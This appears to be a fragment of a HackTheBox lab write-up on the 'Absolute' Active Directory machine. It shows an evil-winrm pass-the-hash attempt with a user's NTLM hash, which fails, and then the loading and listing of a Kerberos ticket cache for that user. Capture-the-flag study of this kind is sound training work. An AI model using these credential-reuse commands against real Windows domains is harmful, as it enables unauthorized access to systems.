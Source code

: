 

```
❯ evil-winrm -i 10.10.11.181 -u 'winrm_user' -H '8738c7413a5da3bc1d083efc0ab06cb2'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1

```



<figure><img src="../../../.gitbook/assets/imagen (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```
❯ export KRB5CCNAME=$(pwd)/winrm_user.ccache
❯ klist -i
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/AD/Absolute/Absolute/content/winrm_user.ccache
Default principal: winrm_user@ABSOLUTE.HTB

Valid starting     Expires            Service principal
10/02/25 04:52:28  10/02/25 08:52:28  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
	renew until 10/02/25 08:52:28
```
